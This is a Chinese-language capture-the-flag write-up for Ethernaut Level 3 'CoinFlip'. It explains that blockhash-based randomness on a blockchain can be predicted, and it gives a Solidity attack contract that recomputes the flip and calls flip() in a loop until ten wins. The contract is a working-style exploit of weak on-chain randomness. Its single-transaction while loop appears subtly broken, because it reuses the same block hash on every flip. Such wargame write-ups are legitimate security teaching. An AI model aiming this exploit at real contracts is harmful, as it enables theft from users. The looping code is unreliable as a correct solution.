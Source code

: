 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>

<img src="../imgs/levels/3-coinflip.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 3 - Coinflip</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 3 - CoinFlip](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

要求连续猜对十次
<img src="../imgs/requirements/3-coinflip-requirements.webp" width="800px"/>

## 漏洞

区块链上的一切都是确定的。这意味着随机源在链上不存在(你可以使用第三方解决方案，如[Chainlink VRF](https://docs.chain.link/vrf/))。`CoinFlip` 合约中使用的随机数是伪随机的。所以我们可以用和合约中相同的逻辑来预测下一次抛硬币。完成后，我们可以使用预测值调用 `flip` 函数，并重复10次以完成任务。

## 解答

我们编写一个攻击合约，使用 与 `CoinFlip` 合约相同的逻辑，来预判 `flip` 函数的下一次参数。然后直接调用  `flip` 函数，就可以准备预测了。

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;


contract Attack {
    CoinFlip instance;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address fb) payable {
        instance = CoinFlip(fb);
    }

    function attack() public {
        while (instance.consecutiveWins() < 10) {
            uint256 blockValue = uint256(blockhash(block.number - 1));
            uint256 coinFlip = blockValue / FACTOR;
            instance.flip(coinFlip == 1 ? true : false);
        }
    }
}
```

## 要点

- 链上是没有随机源的，所以不要依赖链上的数据作为随机源开发功能、产品。
- 资料: https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#entropy-illusion

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
